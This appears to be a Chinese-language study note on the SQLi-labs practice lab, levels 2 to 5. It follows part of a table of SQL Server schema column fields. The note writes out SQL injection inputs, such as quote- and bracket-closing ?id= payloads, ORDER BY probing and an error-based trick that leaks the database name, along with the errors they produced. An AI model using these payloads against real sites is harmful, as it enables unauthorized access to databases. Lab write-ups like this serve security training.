 | DATETIME_PRECISION       | smallint       | datetime 及 SQL-92 interval 数据类型的子类型代码。对于其它数据类型，返回 NULL。 |
| CHARACTER_SET_CATALOG    | varchar(6)     | 如果列是字符数据或 text 数据类型，那么返回 master，指明字符集所在的数据库。否则，返回 NULL。 |
| CHARACTER_SET_SCHEMA     | varchar(3)     | 如果列是字符数据或 text 数据类型，那么返回 DBO，指明字符集的所有者名称。否则，返回 NULL。 |
| CHARACTER_SET_NAME       | nvarchar(128)  | 如果该列是字符数据或 text 数据类型，那么为字符集返回唯一的名称。否则，返回 NULL。 |
| COLLATION_CATALOG        | varchar(6)     | 如果列是字符数据或 text 数据类型，那么返回 master，指明在其中定义排序次序的数据库。否则此列为 NULL。 |
| COLLATION_SCHEMA         | varchar(3)     | 返回 DBO，为字符数据或 text 数据类型指明排序次序的所有者。否则，返回 NULL。 |
| COLLATION_NAME           | nvarchar(128)  | 如果列是字符数据或 text 数据类型，那么为排序次序返回唯一的名称。否则，返回 NULL。 |
| DOMAIN_CATALOG           | nvarchar(128)  | 如果列是一种用户定义数据类型，那么该列是某个数据库名称，在该数据库名中创建了这种用户定义数据类型。否则，返回 NULL。 |
| DOMAIN_SCHEMA            | nvarchar(128)  | 如果列是一种用户定义数据类型，那么该列是这种用户定义数据类型的创建者。否则，返回 NULL。 |
| DOMAIN_NAME              | nvarchar(128)  | 如果列是一种用户定义数据类型，那么该列是这种用户定义数据类型的名称。否则，返回 NULL。 |

## less-2_basic_num
### 数字型

其他步骤与 less-1 相同，只不过变成了数字型注入

## less-3_basic_bracket
### 括号闭合
1. 先判断是字符型
2. ?id=2' order by 3 --+后报错 check the manual that corresponds to your MySQL server version for the right syntax to use near 'order by 3 -- ') LIMIT 0,1' at line 1 说明要用单引号和括号来闭合
3. 其他步骤相同

## less-4_basic_bracket2
### 括号闭合
1. 字符型
2. ?id=2' order by 3--+ 其中 order by 后面数字不管多大都没反应，说明闭合有问题
3. 尝试把单引号改成双引号，出现报错：……use near 'order by 3-- ") LIMIT 0,1' at line 1说明应该用双引号加右括号进行闭合
4. 后续步骤相同

## less-5_extractvalue
### 报错注入
1. ?id=1' order by 100 --+ 报错 Unknown column '100' in 'order clause' 说明已经正确闭合了

2. ?id=-1'  order by 3--+ 什么都不显示

3. ?id=1'  order by 3--+ 只显示 You are in.........

4. 故意调用不存在的函数套出数据库名：?id=1' union select fuck() --+ 报错 FUNCTION security.fuck does not exist 说明数据库名为 security
